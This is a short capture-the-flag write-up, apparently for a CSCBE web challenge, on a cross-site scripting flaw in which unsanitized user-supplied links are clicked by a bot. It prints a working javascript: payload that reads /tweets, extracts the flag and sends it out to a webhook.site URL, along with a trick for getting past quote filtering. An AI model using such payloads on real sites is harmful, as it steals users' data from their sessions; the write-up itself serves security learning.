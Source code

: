 The issue in this web application is that the URL is fully user controlled, and no protocol sanitization happens.
There is a separate process running that opens every new post and clicks on the provided link.
Passing a link that starts with `javascript:` allows javascript execution on click.

An example link would be 
`console.log(jQuery.get(\`/tweets\`,function(response){window.location=\`https://webhook.site/0da86b21-132d-474f-a9e7-fed4c28cbb06?\`+response.match(/CSCBE{.*}/)[0]}))`

Backticks are used because both single and double quotes are filtered. The entire thing is wrapped in a console.log, because if the function returns something it doesn't actually redirect in Chrome. (appending `;return;` would also work). 
